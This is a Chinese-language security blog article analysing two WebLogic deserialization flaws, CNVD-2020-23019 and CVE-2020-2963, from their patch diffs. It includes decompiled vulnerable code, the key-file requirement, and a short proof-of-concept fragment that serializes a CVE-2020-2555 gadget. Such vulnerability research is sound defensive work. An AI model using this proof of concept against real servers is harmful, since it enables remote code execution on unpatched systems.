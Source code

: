 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/RlEmkwit1cDxHhRBo-eY8A)

简介
--

这两个洞应该都是 5 月更新的补丁，分析时候无意中发现的。看了一下漏洞挺简单，就是利用有点苛刻

SOAPInvokeState  CNVD-2020-23019
--------------------------------

diff 补丁，截图如下![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdHxgFia9wAWc3feW93J4M04KREEwmbBqN4x9JhJt1ObtXybE1aSqjFcGTibsKelhXV3Hun3KnpicWNWA/640?wx_fmt=png)

可以很明显的看出，将 ObjectInputStream 更改为 FilterInputStream。在 weblogic 中，FilterInputStream 负责检查反序列化的类种是否存在可以利用的 Gadget，而 ObjectInputStream 不会。并且在类的 readObject 方法中，通过 T3 协议反序列化默认的参数为 FilterInputStream，以此来防御反序列化漏洞。

除非类的 readObject 中乱调用 ObjectInputStream，否则是不会产生反序列化漏洞的。

在 SOAPInvokeState 的 readExternal 中，我们只要能走入以下的流程即可

```
if ((flags & 1) != 0) {            try {                len = in.readInt();                byte\[\] bytes = new byte\[len\];                in.readFully(bytes);                bytes = EncryptionUtil.decrypt(bytes);                ByteArrayInputStream bais = new ByteArrayInputStream(bytes);                ObjectInputStream in2 = new ObjectInputStream(bais);                this.subject = (AuthenticatedSubject)in2.readObject();            } catch (Exception var13) {                (new NonCatalogLogger("WebServices")).warning("Couldn't completely read SOAPInvokeState object", var13);            }
```

看一下 writeExternal 方法，被实例化的类中存在 subject，就可以让 readExternal 执行上面的反序列化流程

```
if (this.subject != null) {            ByteArrayOutputStream var12 = new ByteArrayOutputStream();            ObjectOutputStream var13 = new ObjectOutputStream(var12);            var13.writeObject(this.subject);            var13.flush();            byte\[\] var5 = var12.toByteArray();            var5 = EncryptionUtil.encrypt(var5);            var1.writeInt(var5.length);            var1.write(var5);        }
```

当然，还下面问题

### 加密

在 EncryptionUtil.encrypt 加密时，会根据 Kernel.isServer() 为 true，才会进行加密，否则返回原数据。因此加密之前需要调用 KernelStatus.setIsServer(true) 设置状态为 true，或者强行加密。

```
public static byte\[\] encrypt(byte\[\] var0) {        return getEncryptionService().encryptBytes(var0);    }
```

在`weblogic.security.internal.SerializedSystemIni#getExistingEncryptionService`中，会读取`SerializedSystemIni.dat`作为密钥，也就是说，需要认证或者配合文件读取才能利用该漏洞去攻击 weblogic

```
public static EncryptionService getExistingEncryptionService() {        String var0 = DomainDir.getRootDir();        String var1 = var0 + File.separator + "security" + File.separator + "SerializedSystemIni.dat";        File var2 = new File(var1);        if (!var2.exists()) {            String var3 = var0 + File.separator + "SerializedSystemIni.dat";            File var4 = new File(var3);            if (!var4.exists()) {                return null;            }            var1 = var3;        }        SerializedSystemIni var5 = new SerializedSystemIni(var1);        return getEncryptionService(var5.getTheSalt(), var5.getTheEncryptedSecretKey(), var5.getTheAESEncryptedSecretKey());
```

POC
---

魔改一下 writeExternal 为下面的代码，再反序列化即可

```
            BadAttributeValueExpException exp = null;
            try {
                exp = cve\_2020\_2555.getBadAttributeValueExpException();
            } catch (Exception e) {
                e.printStackTrace();
            }
            out2.writeObject(exp);
            out2.flush();
            byte\[\] bytes = baos.toByteArray();
            bytes = EncryptionUtil.encrypt(bytes);
            out.writeInt(bytes.length);
            out.write(bytes);
        }
       
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdHxgFia9wAWc3feW93J4M04KkmPBW3wyjfYGiaTgeaicUoPia2miaFEDEhlsQfzLdIuibZCoqKMRLLlxgPw/640?wx_fmt=png)

WlsSSLAdapter CVE-2020-2963
---------------------------

原理一样，详见下面的代码

```
private Object readEncryptedField(ObjectInputStream in) throws IOException, ClassNotFoundException {        int length = in.readInt();        if (length <= 0) {            return in.readObject();        } else {            byte\[\] bytes = new byte\[length\];            in.readFully(bytes);            bytes = EncryptionUtil.decrypt(bytes);            ByteArrayInputStream bais = new ByteArrayInputStream(bytes);            ObjectInputStream in2 = new ObjectInputStream(bais);            return in2.readObject();        }    }
```

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdHxgFia9wAWc3feW93J4M04K8zCB0kbfXSgT90enEiayRw7BON0ic0QtRxjAsReHYogZNAV5eQKia27gw/640?wx_fmt=png)

参考
--

1.  https://www.fortiguard.com/encyclopedia/ips/48965
    
2.  https://www.fortiguard.com/encyclopedia/ips/48945
    

宽字节安全 发起了一个读者讨论 weblogic CVE-2020-2963、CNVD-2020-23019  反序列化漏洞分析与复现